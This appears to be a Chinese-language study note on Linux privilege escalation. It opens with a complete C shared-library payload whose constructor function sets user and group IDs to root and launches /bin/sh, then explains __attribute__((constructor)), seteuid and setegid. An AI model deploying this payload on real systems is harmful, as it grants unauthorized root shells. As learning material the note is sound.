 ```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	//static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
}
```

好家伙，上来的第6行代码就看不懂了，__attribute__ ((constructor))是什么玩意儿？

很轻松的百度可以得到结果：

> [https://www.jianshu.com/p/dd425b9dc9db](https://www.jianshu.com/p/dd425b9dc9db)
>

### __attribute__和seteuid、setegid的介绍
![](https://cdn.nlark.com/yuque/0/2021/png/574026/1612667380141-f7b128fc-0987-4d50-be63-5ff57ef1f667.png)

其中括号中的<font style="color:#C7254E;background-color:#F2F2F2;">attribute-list</font>可以为：constructor和destructor，它们的作用如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1612667512294-cd3ebfb6-e482-46e3-bbad-48e861df43f1.png)

所以可以清楚的知道：当执行恶意so时，由于有__attribute__((constructor))会先执行_init函数。

setuid(0)和setgid(0)之前都说过了，不再说，看一下seteuid(0)和setegid(0)：

> [https://blog.csdn.net/qq_41453285/article/details/103074879](https://blog.csdn.net/qq_41453285/article/details/103074879)
>

这两个函数是用来更改有效用户ID和有效组ID，函数原型如下：

```c
#include <unistd.h>
int seteuid(uid_t uid);
int setegid(gid_ gid);
 
//返回值：若成功返回0；失败返回-1
```

+ POSIX.1包含了这两个函数，它们类似于setuid和setgid，但是这两个函数**<font style="color:#3399EA;">只更改有效用户ID/有效组ID</font>**
+ 一个非特权用户可将其有效用户ID设置为其实际用户ID或其保存的设置用户ID，对于一个特权用户则可将有效用户ID设置为uid

### ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1612668640964-78d9b4fc-5cf4-469f-a0c5-0788e0fa7a71.png)
